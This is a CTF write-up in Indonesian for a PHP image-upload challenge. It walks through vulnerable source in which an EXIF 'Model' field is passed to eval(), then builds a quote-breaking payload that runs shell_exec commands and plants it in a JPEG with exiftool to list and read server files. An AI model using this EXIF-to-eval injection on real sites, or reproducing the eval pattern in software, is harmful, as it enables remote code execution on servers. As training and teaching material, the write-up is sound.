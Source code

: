 # Write up 

## Task detail

Main main yuk
http://128.199.226.249/eat/

Source:
https://github.com/nikkoenggaliano/Badimageupload



## Problem

Diberikan sebuah halaman web dengan tampilan seperti ini.



![](./src/1.png)



Seperti upload file gambar biasa dengan validasi yang hanya membolehkan mengupload file dengan exstensi [jpg, jpeg] Menurut source `index.php` yang diberikan sebagai berikut.



```php
$allowed = array('jpg', 'jpeg');
$path = pathinfo($_FILES['flag']['name']);
$ext = strtolower($path['extension']);
		
//verify ext
if(!in_array($ext, $allowed)){
	die('Just allowed jpg/jpeg');
}
```



Validasi yang lain hanya mengecek besar file yang tidak boleh lebih dari 2Mb dan gambar yang diupload harus memiliki lebar dan tinggi.



```php
//verify size
if($_FILES['flag']['size'] > 2000000){
	die('Sorry just allowed less than 2 Mb');
}

//verify image
$data = getimagesize(realpath($_FILES['flag']['tmp_name']));
$width = $data[0];
$height = $data[1];
if(empty($width) || empty($height)){
    die('Please upload image!');
}
```



Oke secara simple hanya boleh mengupload gambar asli. Mari kita coba.



![](/src/2.png)



Setelah mengupload gambar yang kita upload akan di tampilkan lagi dengan keterangan `waktu` `height` dan `width` 

Mari lihat ke source `render.php` 



```php
$read = exif_read_data($nama);	
if(isset($read['Model'])){
	$model .= (string) $read['Model'];	
}else{
	$model .= "Hacker";
}
$height = $read['COMPUTED']['Height'];
$width = $read['COMPUTED']['Width'];
$epoch = date('Y-M-D H:i:s',$read['FileDateTime']);
}

```



Oke pada variable `$read` memangil fungsi read exif data, Kemudian ada sebuah pengecekan apakah ada exif data model jika tidak akan diisi dengan `Hacker` Selanjutnya hanya memparsing exif `waktu` `height` dan `width`. 



## Bugs

Pada proses pemanggilan variable hasil exif ada yang paling menarik sebagai berikut.



```php+HTML
<h4 class="media-heading"> Hey <?php echo(eval("print '$model';")) ?></h4>
```



Variable `$model` di print menggunakan `eval()` Hmm, Meskipun `eval` dapat diisi dengan hal hal seperti fungsi php atau shell ada yang menyebabkan sedikit tricky untuk menginjectnya. Karena didalam eval terdapat kutip yang cukup tricky juga.



## Exploitasion

Sebelum memikirkan bagaimana menginject kodenya kedalam gambar, Mari kita experimen dulu bagaimana menginject payload kedalam eval tersebut.



```php
<?php 
$model = "shell_exec('whoami')";
echo(eval("print '$model';"));
```



Asusmsi saya dengan seperti itu bisa tereksekusi. Ternyata tidakkk!  Dan payload yang saya rancang akhirnya bentuknya seperti ini.=

`';echo shell_exec('whoami');//` Oke sedikit saya explain.



1. Kutip dan semicolon `';`  diawal akan membuat kode berbentuk menjadi seperti ini
   -  echo(eval("print ''; ")) ;
2.  echo shell_exec('whoami'); akan menjadi syntax baru di dalam eval menjadi seperti ini
   - echo(eval("print ''; echo shell_exec('whoami'); ")) ;
3.  // pada akhir akan membuat syntax kebelakan menjadi comenting atau tidak dianggap
   - echo(eval("print ''; echo shell_exec('whoami');// ")); 



## Development the payload 

Kita bisa mengisi exif data dengan tools exiftools di unix kalian bisa menginstall dengan `sudo apt install libimage-exiftool-perl`



Selanjutnya mengisi gambar dengan payload.



```bash
$ exiftool -model="';echo shell_exec('ls');//" 851368_1.jpg
    1 image files updated
$
```



Kita mengisi data model dengan payload `ls` dan hasilnya.



![](/src/3.png)



Okey terlihat setelah `Hey` ada file file, Yang paling menarik adalah `wwwwwwwwrite.php ` mari kita dapatkan sourcenya.



```bash
$ exiftool -model="';echo shell_exec('cat wwwwwwwwrite.php ');/
/" 851368_1.jpg
    1 image files updated
$
```



Dan didapatkan hasil sebagai berikut.



```php
<?php 
$data = $_GET['hack'];
$buka = fopen("solver.txt", "a+");
fwrite($buka, $data."\n");
fclose($buka);
?>
```



Ternyata pada file ini kita bisa menuliskan nama kita :D 



```sh
$ curl 128.199.226.249/wwwwwwwwrite.php?hack=Nepska
```



Terima Kasih!
